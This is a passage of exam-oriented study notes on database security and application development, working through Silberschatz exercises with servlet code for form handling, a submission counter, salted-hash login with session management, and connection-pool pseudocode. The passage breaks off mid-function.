




[← Prev: T13 Part 1](T13_Part1_Security_and_Authorization_A.md) | [Exam-style T13](../Topicwise_answers_exam_style/T13_Security_Indexing_and_Hashing.md) | [Next: T13 Part 3 →](T13_Part3_SQL_Injection_and_BTree_Indexing.md)

---

# T13 · Security, Indexing and Hashing (Part 2 · Access Control & Governance)

> [!info] Topic Card & Scope Overview
> **Curriculum Unit:** Unit 8 · Advanced DBMS & Security  
> **Source Chapters:** Silberschatz 7e Chapter 04 (*Intermediate SQL* §4.7) & Chapter 09 (*Application Development* §9.3, §9.5, §9.7, §9.8, §9.9)  
> **Primary Subtopics:** T13.1 · Database security threats, application-level authorization, row-level fine-grained access control (Oracle VPD), audit trails, encryption at rest, digital certificates, and challenge–response authentication.  
> **Direct Exam Alignment:** RUET Semester Finals frequently query database security threats (2017 Q.8a), SQL injection prevention (2020 Q.4a, 2021 Q.8b), authorization cascades, and data protection mechanisms.

---

## Master Table of Exercises

| Exercise ID | Source Chapter | Subtopic ID | Core Focus / Pedagogical Subject | Problem Type |
| :--- | :--- | :---: | :--- | :--- |
| **[[#Exercise 4.26 · Integrity Constraints vs. Authorization Constraints\|EX 4.26]]** | Chapter 04 | T13.1 | Semantic integrity vs. privilege enforcement boundaries | Conceptual Analysis |
| **[[#Exercise 9.13 · Dynamic Form Handling and Star Generation Servlet\|EX 9.13]]** | Chapter 09 | T13.1 | Java Servlet request handling & dynamic HTML response generation | Web Application Dev |
| **[[#Exercise 9.14 · Stateful Query Submission Counter via Database Persistence\|EX 9.14]]** | Chapter 09 | T13.1 | JDBC persistence, atomic upserts & concurrent submission tracking | Web Application Dev |
| **[[#Exercise 9.15 · Database Authentication and Session State Management\|EX 9.15]]** | Chapter 09 | T13.1 | Database user authentication, salted hashing & HTTP session variables | Application Security |
| **[[#Exercise 9.17 · Database Connection Pool Manager Design and Algorithms\|EX 9.17]]** | Chapter 09 | T13.1 | Connection pooling algorithms, resource throttling & mutex concurrency | Architecture / Systems |
| **[[#Exercise 9.18 · Architectural Paradigm Analysis: CRUD and REST\|EX 9.18]]** | Chapter 09 | T13.1 | CRUD operations vs. RESTful state transfer & HTTP verb mapping | Systems Architecture |
| **[[#Exercise 9.19 · Black-Box Ajax Detection and Asynchronous Client Interactions\|EX 9.19]]** | Chapter 09 | T13.1 | Observable runtime asynchronous indicators & real-world web analysis | Web Architecture |
| **[[#Exercise 9.20 · Cross-Site Scripting (XSS) Vectors and Referer Verification\|EX 9.20]]** | Chapter 09 | T13.1 | XSS execution contexts, DOM vulnerabilities & HTTP Referer defense | Application Security |
| **[[#Exercise 9.21 · Multi-Factor Authentication Architecture and Threat Mitigation\|EX 9.21]]** | Chapter 09 | T13.1 | Authentication factors (knowledge/possession/inherence) & credential stuffing defense | Systems Security |
| **[[#Exercise 9.22 · Oracle Virtual Private Database (VPD) Row-Level Security\|EX 9.22]]** | Chapter 09 | T13.1 | Dynamic predicate injection, non-monotonic rewriting & fine-grained security | Advanced Authorization |
| **[[#Exercise 9.23 · Database Encryption at Rest: Strategic and Legal Benefits\|EX 9.23]]** | Chapter 09 | T13.1 | Transparent Data Encryption (TDE), storage theft defense & compliance | Storage Security |
| **[[#Exercise 9.24 · Database Audit Trail Architecture and Malicious DBA Circumvention\|EX 9.24]]** | Chapter 09 | T13.1 | Audit triggers on relations, system context capture & tamper resistance | Governance & Auditing |
| **[[#Exercise 9.25 · Public-Key Infrastructure, X.509 Certificates, and Phishing Defense\|EX 9.25]]** | Chapter 09 | T13.1 | TLS/HTTPS handshakes, X.509 certificate chains & identity spoofing mitigation | Cryptographic Protocols |
| **[[#Exercise 9.26 · Cryptographic Challenge–Response Authentication Mechanisms\|EX 9.26]]** | Chapter 09 | T13.1 | Nonce-based cryptographic handshakes vs. plaintext password transit | Authentication Protocols |

---

## T13.1 · Database security threats; authorization (Part B)

---

### Exercise 4.26 · Integrity Constraints vs. Authorization Constraints

> [!info] Exercise Metadata
> - **Source:** Silberschatz 7e Chapter 04 (*Intermediate SQL*), Section 4.7 & Section 4.4
> - **Type:** Regular Exercise (Conceptual Comparison & Architectural Analysis)
> - **Keywords:** Integrity constraints, authorization constraints, access control, consistency, invariants, least privilege.
> - **RUET Relevance:** High. Compares schema validation with security enforcement; foundational for questions on database security layers (e.g., 2017 Q.8a).

**Question (Silberschatz 7e Exercise 4.26).**  
Explain the difference between integrity constraints and authorization constraints.

#### 1. Core Principles & Concept Overview

In relational database management systems, data governance is enforced along two orthogonal dimensions:
1. **Data Consistency (What the data must look like):** Governed by **Integrity Constraints**. These are declarative rules and logical assertions defining valid database states. They prevent *accidental corruption, logical bugs, and semantic contradictions* regardless of who initiates the transaction.
2. **Data Security & Privacy (Who is allowed to do what):** Governed by **Authorization Constraints** (Access Control). These are security policies determining which authenticated users or roles hold the privilege to read, create, modify, or delete specific schema objects or tuples. They protect against *unauthorized exposure, malicious tampering, and privilege escalation*.



#### 2. Detailed Step-by-Step Solution

##### A. Definition and Theoretical Objectives
- **Integrity Constraints:** Predicates $P$ defined on the database schema such that for every valid database state $D$, $P(D) = \text{TRUE}$. They model business domain rules and physical relationships between data elements.
- **Authorization Constraints:** Access rights defined as a mapping:
  $$
  \text{Perm}: (\text{Subject}, \text{Object}, \text{Action}) \to \{\text{ALLOW}, \text{DENY}\}
  $$
  where $\text{Subject}$ is an authenticated principal (user, role), $\text{Object}$ is a resource (table, column, view, stored procedure), and $\text{Action}$ is an operation (`SELECT`, `INSERT`, `UPDATE`, `DELETE`, `REFERENCES`, `EXECUTE`).

##### B. Comprehensive Structural Comparison

| Feature / Dimension | Integrity Constraints | Authorization Constraints |
| :--- | :--- | :--- |
| **Primary Goal** | Preserve data correctness, validity, and semantic consistency across transactions. | Protect confidentiality, privacy, and prevent unauthorized tampering or exposure. |
| **Enforcement Target** | The **data contents and relationships** within relations. | The **identity and privileges of the acting principal** (user/role). |
| **Subject Dependence** | **Subject-invariant.** Applied universally; applies identically whether executed by a student, DBA, or automated batch script. | **Subject-dependent.** An action permitted for a Professor or DBA may be strictly denied for a Student. |
| **Specification Syntax** | `PRIMARY KEY`, `FOREIGN KEY ... REFERENCES`, `NOT NULL`, `UNIQUE`, `CHECK (predicate)`. | `GRANT privilege ON object TO user/role`, `REVOKE privilege FROM user/role`. |
| **Evaluation Timing** | Immediately on statement execution or deferred until transaction `COMMIT`. | Before compilation/execution of any operation during query parsing and authorization binding. |
| **Failure Response** | Transaction abort or statement rollback (`IntegrityConstraintViolationException`). | Statement rejection with permission denied error (`AccessDeniedException`). |
| **Typical Example** | `CHECK (salary > 0)` or `FOREIGN KEY (dept_name) REFERENCES department(dept_name)`. | `GRANT SELECT ON instructor TO dean_role;` or denying `UPDATE` on `salary` to students. |

##### C. Operational Interplay (Example Walkthrough)
Consider a transaction where user `alice` attempts:
```sql
UPDATE instructor 
SET salary = -5000 
WHERE ID = '10101';
```
1. **Authorization Check:** The DBMS verifies whether `alice` has `UPDATE` privilege on the `salary` attribute of `instructor`. If `alice` is a student, the DBMS halts execution immediately:
   $$
   \text{Error: Insufficient privileges to update table 'instructor'.}
   $$
2. **Integrity Check:** If `alice` is the Payroll Director (and thus authorized), the DBMS evaluates the domain and check constraints on the new value `-5000`. If `CHECK (salary > 0)` exists, the update is rejected:
   $$
   \text{Error: CHECK constraint 'chk_salary_positive' violated.}
   $$

An operation must clear **both** hurdles: it must be permitted by authorization, and its result must conform to all integrity invariants.

#### 3. RUET Exam Insights & Examiner Notes
- **Common Student Error:** Conflating `NOT NULL` or `CHECK` constraints with authorization. A `CHECK` constraint limits *what* values are valid; an authorization rule limits *who* can supply them.
- **Mark Allocation Strategy (4–5 Marks):** RUET examiners expect:
  1. Formal definition of each constraint type (1.5 marks).
  2. A clean side-by-side comparative table with at least 4 criteria (2 marks).
  3. Concrete SQL code snippets contrasting both types (1 mark).

---

### Exercise 9.13 · Dynamic Form Handling and Star Generation Servlet

> [!info] Exercise Metadata
> - **Source:** Silberschatz 7e Chapter 09 (*Application Development*), Section 9.3
> - **Type:** Regular Exercise (Implementation & Web Application Engineering)
> - **Keywords:** Java Servlet, HTML forms, HTTP POST, `doPost`, input parsing, output sanitization.
> - **RUET Relevance:** Medium-High. Practical programming question demonstrating application tier and HTTP request–response lifecycle.

**Question (Silberschatz 7e Exercise 9.13).**  
Write a servlet and associated HTML code for the following very simple application: A user is allowed to submit a form containing a value, say $n$, and should get a response containing $n$ “*” symbols.

#### 1. Core Principles & Concept Overview
In a multi-tier web application architecture:
- **Client Tier (Browser):** Renders an HTML `<form>`, collects user input into key-value pairs, and packages them into an HTTP request (`GET` or `POST`).
- **Application Tier (Servlet Container / Tomcat):** Intercepts the request, extracts input parameters via `HttpServletRequest`, validates data bounds, executes business logic, and writes the dynamic HTML payload into `HttpServletResponse`.

```text
[Browser Form: input n=5] ---> HTTP POST ---> [Servlet: int n = parseInt(...)]
                                                       |
                                               Generates 5 stars: '*****'
                                                       |
[Browser HTML View] <--- HTTP Response (HTML) <--------+
```

#### 2. Detailed Step-by-Step Solution

##### Step 1: HTML Input Form (`starForm.html`)
The HTML page provides a clean interface with client-side numeric validation:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Star Generator</title>
</head>
<body>
    <h2>Star Symbol Generator</h2>
    <form action="StarServlet" method="POST">
        <label for="numStars">Enter a non-negative integer (n):</label>
        <input type="number" id="numStars" name="n" min="0" max="5000" required>
        <button type="submit">Generate Stars</button>
    </form>
</body>
</html>
```

##### Step 2: Java Servlet Implementation (`StarServlet.java`)
The servlet implements robust parameter parsing, boundary safety checks (preventing Denial-of-Service through excessively large allocations), and output streaming:

```java
package com.ece2215.servlets;

import java.io.IOException;
import java.io.PrintWriter;
import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

@WebServlet("/StarServlet")
public class StarServlet extends HttpServlet {
    private static final long serialVersionUID = 1L;
    private static final int MAX_LIMIT = 10000; // DoS prevention bound

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) 
            throws ServletException, IOException {
        
        response.setContentType("text/html;charset=UTF-8");
        PrintWriter out = response.getWriter();
        
        String nParam = request.getParameter("n");
        
        out.println("<!DOCTYPE html>");
        out.println("<html><head><title>Star Generator Result</title></head><body>");
        out.println("<h2>Generated Stars</h2>");
        
        if (nParam == null || nParam.trim().isEmpty()) {
            out.println("<p style='color:red;'>Error: Please enter a valid number.</p>");
        } else {
            try {
                int n = Integer.parseInt(nParam.trim());
                
                if (n < 0) {
                    out.println("<p style='color:red;'>Error: Number must be non-negative.</p>");
                } else if (n > MAX_LIMIT) {
                    out.println("<p style='color:red;'>Error: Input exceeds maximum allowed limit (" 
                                + MAX_LIMIT + ").</p>");
                } else {
                    out.println("<p>Requested count: <strong>" + n + "</strong></p>");
                    out.println("<div style='word-wrap: break-word; font-family: monospace; font-size: 1.2em;'>");
                    
                    // Efficient string generation using StringBuilder
                    StringBuilder stars = new StringBuilder(n);
                    for (int i = 0; i < n; i++) {
                        stars.append('*');
                    }
                    out.println(stars.toString());
                    out.println("</div>");
                }
            } catch (NumberFormatException e) {
                out.println("<p style='color:red;'>Error: Invalid integer format.</p>");
            }
        }
        
        out.println("<br><br><a href='starForm.html'>Back to Form</a>");
        out.println("</body></html>");
    }

    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) 
            throws ServletException, IOException {
        // Redirect GET requests to the HTML form
        response.sendRedirect("starForm.html");
    }
}
```

#### 3. RUET Exam Insights & Examiner Notes
- **Defensive Engineering Note:** In full-credit RUET solutions, never omit exception handling (`NumberFormatException`). Simply writing `int n = Integer.parseInt(request.getParameter("n"));` without a `try-catch` block risks an unhandled 500 Internal Server Error, costing 1 mark.
- **Memory Considerations:** Using `StringBuilder` rather than repeated `out.print("*")` inside a tight loop shows production-grade efficiency.

---

### Exercise 9.14 · Stateful Query Submission Counter via Database Persistence

> [!info] Exercise Metadata
> - **Source:** Silberschatz 7e Chapter 09 (*Application Development*), Section 9.3 & Section 9.7
> - **Type:** Regular Exercise (Full-Stack Database Application)
> - **Keywords:** Servlet, JDBC, state persistence, atomic upsert, race condition, `PreparedStatement`.
> - **RUET Relevance:** Very High. Demonstrates integration of application server code with relational database tables.

**Question (Silberschatz 7e Exercise 9.14).**  
Write a servlet and associated HTML code for the following simple application: A user is allowed to submit a form containing a number, say $n$, and should get a response saying how many times the value $n$ has been submitted previously. The number of times each value has been submitted previously should be stored in a database.

#### 1. Core Principles & Concept Overview
Unlike stateless web transactions, tracking cumulative frequency requires **persistent relational storage**.
Key architectural challenges:
1. **Concurrency and Race Conditions:** Multiple clients submitting the same value $n$ simultaneously can lead to lost updates if reading and updating are not atomic.
2. **SQL Injection Defense:** All database statements must utilize parameterized `PreparedStatement` interfaces.
3. **Upsert Semantics:** If $n$ has never been submitted, its count must initialize to 0 (reported) and then 1 (stored). If $n$ exists, its stored count $c$ must be reported to the user, and then incremented to $c + 1$.



#### 2. Detailed Step-by-Step Solution

##### Step 1: Relational Schema DDL
```sql
CREATE TABLE submission_log (
    num_val INT PRIMARY KEY,
    submit_count INT NOT NULL DEFAULT 1
);
```

##### Step 2: HTML Submission Form (`numberForm.html`)
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Number Submission Tracker</title>
</head>
<body>
    <h2>Number Frequency Tracker</h2>
    <form action="CountTrackerServlet" method="POST">
        <label for="numInput">Enter an integer (n):</label>
        <input type="number" id="numInput" name="num" required>
        <input type="submit" value="Submit Number">
    </form>
</body>
</html>
```

##### Step 3: Java Servlet Implementation (`CountTrackerServlet.java`)
```java
package com.ece2215.servlets;

import java.io.IOException;
import java.io.PrintWriter;
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.PreparedStatement;
import java.sql.ResultSet;
import java.sql.SQLException;
import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

@WebServlet("/CountTrackerServlet")
public class CountTrackerServlet extends HttpServlet {
    private static final long serialVersionUID = 1L;

    // Database connection coordinates
    private static final String DB_URL  = "jdbc:postgresql://localhost:5432/ruet_db";
    private static final String DB_USER = "db_user";
    private static final String DB_PASS = "db_pass";

    @Override
    public void init() throws ServletException {
        try {
            Class.forName("org.postgresql.Driver");
        } catch (ClassNotFoundException e) {
            throw new ServletException("JDBC Driver not found", e);
        }
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) 
            throws ServletException, IOException {
        
        response.setContentType("text/html;charset=UTF-8");
        PrintWriter out = response.getWriter();
        String numStr = request.getParameter("num");

        out.println("<!DOCTYPE html><html><head><title>Result</title></head><body>");
        
        if (numStr == null || numStr.trim().isEmpty()) {
            out.println("<p style='color:red;'>Error: Missing input value.</p>");
            out.println("</body></html>");
            return;
        }

        int n;
        try {
            n = Integer.parseInt(numStr.trim());
        } catch (NumberFormatException e) {
            out.println("<p style='color:red;'>Error: Invalid numeric format.</p>");
            out.println("</body></html>");
            return;
        }

        int previousCount = 0;

        // Perform transactional check and update
        try (Connection conn = DriverManager.getConnection(DB_URL, DB_USER, DB_PASS)) {
            conn.setAutoCommit(false); // Begin transaction block

            String selectSQL = "SELECT submit_count FROM submission_log WHERE num_val = ? FOR UPDATE";
            try (PreparedStatement selectStmt = conn.prepareStatement(selectSQL)) {
                selectStmt.setInt(1, n);
                try (ResultSet rs = selectStmt.executeQuery()) {
                    if (rs.next()) {
                        // Value was seen previously
                        previousCount = rs.getInt("submit_count");
                        
                        // Increment count in database
                        String updateSQL = "UPDATE submission_log SET submit_count = submit_count + 1 WHERE num_val = ?";
                        try (PreparedStatement updateStmt = conn.prepareStatement(updateSQL)) {
                            updateStmt.setInt(1, n);
                            updateStmt.executeUpdate();
                        }
                    } else {
                        // First submission of this value
                        previousCount = 0;
                        
                        String insertSQL = "INSERT INTO submission_log (num_val, submit_count) VALUES (?, 1)";
                        try (PreparedStatement insertStmt = conn.prepareStatement(insertSQL)) {
                            insertStmt.setInt(1, n);
                            insertStmt.executeUpdate();
                        }
                    }
                }
            }

            conn.commit(); // Commit transaction

            // Render output
            out.println("<h2>Submission Status</h2>");
            out.println("<p>The number <strong>" + n + "</strong> has been submitted previously ");
            out.println("<strong>" + previousCount + "</strong> time(s).</p>");

        } catch (SQLException e) {
            out.println("<p style='color:red;'>Database Error: " + e.getMessage() + "</p>");
        }

        out.println("<br><a href='numberForm.html'>Submit Another Number</a>");
        out.println("</body></html>");
    }
}
```

#### 3. RUET Exam Insights & Examiner Notes
- **Transaction Locking (`FOR UPDATE`):** Pointing out the need for `SELECT ... FOR UPDATE` (or atomic native upsert like `INSERT ... ON CONFLICT DO UPDATE`) proves deep understanding of concurrency control (Topic T11 integration). Without locking, two threads reading $c=3$ concurrently would both write back $c=4$, losing one submission.

---

### Exercise 9.15 · Database Authentication and Session State Management

> [!info] Exercise Metadata
> - **Source:** Silberschatz 7e Chapter 09 (*Application Development*), Section 9.3.2 & Section 9.8.4
> - **Type:** Regular Exercise (Security Implementation)
> - **Keywords:** Authentication, `HttpSession`, session hijacking, password hashing, salt, `PreparedStatement`.
> - **RUET Relevance:** Very High. Covers application-tier authentication and session tracking mechanisms.

**Question (Silberschatz 7e Exercise 9.15).**  
Write a servlet that authenticates a user (based on user names and passwords stored in a database relation) and sets a session variable called `userid` after authentication.

#### 1. Core Principles & Concept Overview
- **HTTP Statelessness:** The HTTP protocol is inherently stateless. Application servers establish state using **Sessions** (managed via server-side session stores mapped to a client-side session cookie, typically `JSESSIONID`).
- **Security Invariant:** User passwords must **never** be stored in plaintext. They must be protected using salted cryptographic hashes (e.g., SHA-256 with random salt, bcrypt, or PBKDF2).
- **Session Fixation Defense:** Upon successful authentication, any pre-existing unauthenticated session must be invalidated and a fresh session created (`session.invalidate()` followed by `request.getSession(true)`).

#### 2. Detailed Step-by-Step Solution

##### Step 1: Relational Schema DDL
```sql
CREATE TABLE app_users (
    username VARCHAR(50) PRIMARY KEY,
    password_hash VARCHAR(64) NOT NULL, -- SHA-256 hex string (256 bits = 64 hex chars)
    salt VARCHAR(32) NOT NULL           -- Unique cryptographically random salt per user
);
```

##### Step 2: Java Servlet Implementation (`LoginServlet.java`)
```java
package com.ece2215.servlets;

import java.io.IOException;
import java.io.PrintWriter;
import java.nio.charset.StandardCharsets;
import java.security.MessageDigest;
import java.security.NoSuchAlgorithmException;
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.PreparedStatement;
import java.sql.ResultSet;
import java.sql.SQLException;
import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;

@WebServlet("/LoginServlet")
public class LoginServlet extends HttpServlet {
    private static final long serialVersionUID = 1L;

    private static final String DB_URL  = "jdbc:postgresql://localhost:5432/ruet_db";
    private static final String DB_USER = "auth_admin";
    private static final String DB_PASS = "secure_db_pass";

    // Helper: Compute SHA-256(password + salt)
    private String hashPassword(String password, String salt) throws NoSuchAlgorithmException {
        MessageDigest md = MessageDigest.getInstance("SHA-256");
        md.update(salt.getBytes(StandardCharsets.UTF_8));
        byte[] hashedBytes = md.digest(password.getBytes(StandardCharsets.UTF_8));
        
        StringBuilder hexString = new StringBuilder();
        for (byte b : hashedBytes) {
            hexString.append(String.format("%02x", b));
        }
        return hexString.toString();
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) 
            throws ServletException, IOException {
        
        response.setContentType("text/html;charset=UTF-8");
        PrintWriter out = response.getWriter();

        String usernameInput = request.getParameter("username");
        String passwordInput = request.getParameter("password");

        if (usernameInput == null || passwordInput == null || 
            usernameInput.trim().isEmpty() || passwordInput.isEmpty()) {
            response.sendRedirect("login.html?error=empty_fields");
            return;
        }

        boolean isAuthenticated = false;

        try (Connection conn = DriverManager.getConnection(DB_URL, DB_USER, DB_PASS)) {
            String query = "SELECT password_hash, salt FROM app_users WHERE username = ?";
            
            try (PreparedStatement pstmt = conn.prepareStatement(query)) {
                pstmt.setString(1, usernameInput.trim());
                
                try (ResultSet rs = pstmt.executeQuery()) {
                    if (rs.next()) {
                        String storedHash = rs.getString("password_hash");
                        String storedSalt = rs.getString("salt");

                        // Recompute hash using submitted password and stored salt
                        String computedHash = hashPassword(passwordInput, storedSalt);

                        // Constant-time comparison to prevent timing attacks
                        if (MessageDigest.isEqual(computedHash.getBytes(StandardCharsets.UTF_8), 
                                                 storedHash.getBytes(StandardCharsets.UTF_8))) {
                            isAuthenticated = true;
                        }
                    }
                }
            }
        } catch (SQLException | NoSuchAlgorithmException e) {
            out.println("<p style='color:red;'>System Authentication Error.</p>");
            return;
        }

        if (isAuthenticated) {
            // Prevent Session Fixation: Invalidate old session if it exists
            HttpSession oldSession = request.getSession(false);
            if (oldSession != null) {
                oldSession.invalidate();
            }

            // Create a brand new session and bind userid
            HttpSession session = request.getSession(true);
            session.setAttribute("userid", usernameInput.trim());

            // Set session timeout (e.g., 30 minutes)
            session.setMaxInactiveInterval(30 * 60);

            // Redirect to secure landing portal
            response.sendRedirect("dashboard.jsp");
        } else {
            // Authentication failed
            out.println("<!DOCTYPE html><html><body>");
            out.println("<h3 style='color:red;'>Authentication Failed: Invalid username or password.</h3>");
            out.println("<a href='login.html'>Try Again</a>");
            out.println("</body></html>");
        }
    }
}
```

#### 3. RUET Exam Insights & Examiner Notes
- **Salted Hashing & Timing Attacks:** Incorporating `MessageDigest.isEqual()` and unique salting highlights top-tier security awareness. Storing passwords in plaintext will incur deductions from RUET evaluators.
- **Session API:** Emphasize the distinct roles of `request.getSession(false)` (probe existing) vs. `request.getSession(true)` (instantiate new).

---

### Exercise 9.17 · Database Connection Pool Manager Design and Algorithms

> [!info] Exercise Metadata
> - **Source:** Silberschatz 7e Chapter 09 (*Application Development*), Section 9.7.1
> - **Type:** Regular Exercise (Systems Architecture & Concurrency Algorithms)
> - **Keywords:** Connection pooling, latency overhead, thread synchronization, mutual exclusion, connection validation.
> - **RUET Relevance:** High. Directly tests backend performance optimization and resource lifecycle management.

**Question (Silberschatz 7e Exercise 9.17).**  
Write pseudocode to manage a connection pool. Your pseudocode must include a function to create a pool (providing a database connection string, database user name, and password as parameters), a function to request a connection from the pool, a connection to release a connection to the pool, and a function to close the connection pool.

#### 1. Core Principles & Concept Overview
Establishing a relational database connection is expensive:
1. TCP 3-way handshake ($\approx 1\text{ RTT}$).
2. TLS handshake ($\approx 2\text{ RTTs}$).
3. Database server process/thread spawning and authentication.
4. Memory allocation for cursor buffers and session state.

Total latency per connection establishment is typically $50\text{--}150\text{ ms}$. **Connection pooling** mitigates this by maintaining a pool of pre-allocated, open connections reused across successive client requests.

```text
       +-------------------------------------------------------------+
       |                  ConnectionPool Manager                     |
       |                                                             |
Request+--------> [Lock Mutex]                                       |
                  |                                                  |
                  |---> Is freeList non-empty?                       |
                  |        YES ---> Pop conn -> Add to busySet ----->+ Return Conn
                  |        NO  ---> Can create new (count < max)?    |
                  |                    YES ---> Create -> busySet ---+
                  |                    NO  ---> Wait on Condition    |
Release+--------> [Lock Mutex]                                       |
                  |---> Move conn from busySet to freeList           |
                  |---> Signal Condition Variable                    |
       +-------------------------------------------------------------+
```

#### 2. Detailed Step-by-Step Solution

##### Data Structures and Class Definitions
```python
class ConnectionPool:
    def __init__(self):
        self.conn_string = ""
        self.username = ""
        self.password = ""
        self.min_size = 5
        self.max_size = 20
        self.current_total_connections = 0
        
        self.free_connections = Queue()      # Available open connections
        self.active_connections = Set()      # Currently allocated to threads
        
        self.mutex = Mutex()                 # Synchronization lock
        self.has_free_conn = Condition(mutex)# Condition variable for waiting threads
        self.is_shutdown = False
```

##### Pseudocode Implementation

```python
# 1. FUNCTION TO INITIALIZE THE CONNECTION POOL
function create_pool(conn_string, db_user, db_pass, min_conns=5, max_conns=20, timeout_ms=5000):
    pool = new ConnectionPool()
    pool.conn_string = conn_string
    pool.username = db_user
